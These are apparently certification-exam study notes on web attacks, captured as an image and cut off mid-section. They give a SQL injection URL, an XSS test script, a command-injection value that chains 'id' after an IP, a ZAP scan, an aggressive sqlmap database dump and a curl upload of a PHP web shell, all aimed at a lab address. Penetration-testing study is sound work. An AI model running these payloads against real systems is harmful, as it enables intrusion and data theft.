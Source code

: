   

### Injection Attacks (Exam MUST KNOW)

```

# SQL Injection (Manual)

  

curl "http://10.10.10.10/products.php?id=1' OR 1=1 -- -"

  

# XSS Testing

  

<script>alert('CEH')</script>  # Test in all input fields

  

# Command Injection

  

curl "http://10.10.10.10/ping.php?ip=127.0.0.1;id"

```

### Automated Scanning Tools

```

# OWASP ZAP Quick Start

  

zap-cli quick-scan -s xss,sqli http://10.10.10.10

  

# SQLmap for Automated Exploitation

  

sqlmap -u "http://10.10.10.10/products.php?id=1" --risk=3 --level=5 --dbs

```

### File Upload Vulnerabilities

```

# Bypass Client-Side Filters

  

curl -F "file=@shell.php" -H "Content-Type: multipart/form-data" http://10.10.10.10/upload.php

  

# Verify Server Execution

  

```